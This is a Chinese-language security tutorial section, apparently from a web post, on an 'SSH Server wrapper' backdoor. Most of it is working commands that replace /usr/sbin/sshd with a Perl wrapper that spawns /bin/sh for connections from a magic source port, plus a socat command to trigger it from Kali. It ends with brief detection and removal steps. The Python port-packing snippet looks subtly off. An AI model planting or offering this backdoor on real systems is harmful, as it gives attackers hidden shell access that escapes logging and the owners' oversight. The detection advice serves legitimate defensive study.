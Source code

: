 ![p1](http://drops.javaweb.org/uploads/images/a53b7270d8b79b0d5cee34a7d203d1c95506a0c6.jpg)

0x03 SSH Server wrapper
=====

条件：开启ssh，如果不连接是没有端口进程的，而且last也看不到

```
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd

echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd

echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart

```

kali下的执行

```
socat STDIO TCP4:192.168.206.142:22,sourceport=13377

```

对于源端口的修改：

```
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A

```

后门排查：

```
netstat -anopt
//查看一下sshd进程情况,如果发现不是/usr/sbin/目录下面,就有问题
ll /proc/1786
cat /usr/sbin/sshd

```

![p2](http://drops.javaweb.org/uploads/images/86f128b0364e1fae54517eb6e6ca0a348985417d.jpg)

还原：

```
rm -rf /usr/sbin/sshd; mv /usr/bin/sshd ../sbin;

```
